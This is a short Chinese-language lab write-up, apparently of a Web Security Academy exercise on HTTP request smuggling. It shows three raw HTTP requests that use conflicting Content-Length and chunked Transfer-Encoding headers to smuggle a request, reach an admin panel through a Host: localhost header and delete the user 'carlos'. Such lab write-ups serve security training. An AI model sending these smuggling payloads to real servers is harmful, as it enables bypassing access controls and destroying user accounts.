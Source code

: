 > the front-end server doesn't support chunked encoding.

我先用这个

```http
POST /login HTTP/1.1
Host: acaf1f781f41c7b181735f0a007e00f5.web-security-academy.net
Content-Length: 93
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: acaf1f781f41c7b181735f0a007e00f5.web-security-academy.net


```

返回`401 Unauthorized`，纳闷，有点奇怪。

去看了一下官方的解析，发现后端处理`/admin`的请求时，需要将`Host: localhost`。

然后倒回去看了一下返回的东西，发现`Admin interface only available to local users`，眼瞎竟是我自己。

我换了之后发现还是不行。。。。我又卡住了。

多试了一下：

```http
POST /login HTTP/1.1
Host: acaf1f781f41c7b181735f0a007e00f5.web-security-academy.net
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /login HTTP/1.1
Host: localhost


```

我发现这个能进`/admin`，好神奇啊。把`GET /login HTTP/1.1`改成`GET / HTTP/1.1`也能进`/admin`。

神奇。

然后现在就是进`/admin/delete?username=carlos`来删除账户了。

直接：

```http
POST /login HTTP/1.1
Host: acaf1f781f41c7b181735f0a007e00f5.web-security-academy.net
Content-Length: 68
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost


```
